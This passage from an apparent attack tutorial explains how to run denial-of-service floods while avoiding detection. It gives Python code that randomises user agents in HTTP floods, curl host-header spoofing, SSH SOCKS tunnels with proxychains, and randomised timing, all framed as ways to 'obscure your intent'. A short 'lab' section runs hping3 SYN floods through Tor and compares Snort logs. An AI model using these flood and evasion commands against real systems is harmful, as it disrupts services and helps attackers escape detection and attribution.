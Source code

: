 #### Method 3: Randomize User Agents
- **How It Works**: For application-layer attacks (e.g., HTTP floods), randomize user agents to avoid detection as a bot.
- **Example with Python**:
  ```python
  import requests
  import random
  user_agents = ["Mozilla/5.0 (Windows NT 10.0; Win64; x64)...", "..."]  # Add list
  headers = {"User-Agent": random.choice(user_agents)}
  response = requests.get("http://<target_IP>", headers=headers)
  ```
- **Effectiveness**: High for HTTP-based attacks to blend with legitimate traffic.

### e. Other Anonymity Techniques
- **Spoof Hostnames**: For HTTP attacks, use random hostnames in requests to obscure your intent.
  ```bash
  curl -H "Host: random.example.com" http://<target_IP>
  ```
- **Encrypt Traffic**: Use HTTPS or SSH tunnels to hide packet contents.
  ```bash
  ssh -D 8080 user@<remote_server>  # SOCKS proxy
  proxychains <tool> <target_IP>
  ```
- **Randomize Timing**: Introduce delays in attacks to avoid predictable patterns.
  ```python
  import time
  import random
  time.sleep(random.uniform(0.1, 1.0))  # Random delay
  ```

## 3. Testing Anonymity in Your Lab
To ensure your anonymity techniques work, simulate detection in your lab:
1. **Set Up a Target VM**: Install an IDS like Snort on a Ubuntu VM.
   ```bash
   sudo apt-get install snort
   ```
2. **Attack with and without Anonymity**:
   - Run a SYN flood without VPN/Tor:
     ```bash
     hping3 -S --flood -p 80 <target_IP>
     ```
   - Repeat with `proxychains` and Tor:
     ```bash
     proxychains hping3 -S --flood -p 80 <target_IP>
     ```
3. **Check Snort Logs**:
   ```bash
   sudo cat /var/log/snort/alert
   ```
   - Look for your real IP (without VPN/Tor) vs. anonymized IP.
4. **Verify MAC Spoofing**:
   - Use Wireshark on the target to check MAC addresses in packets.
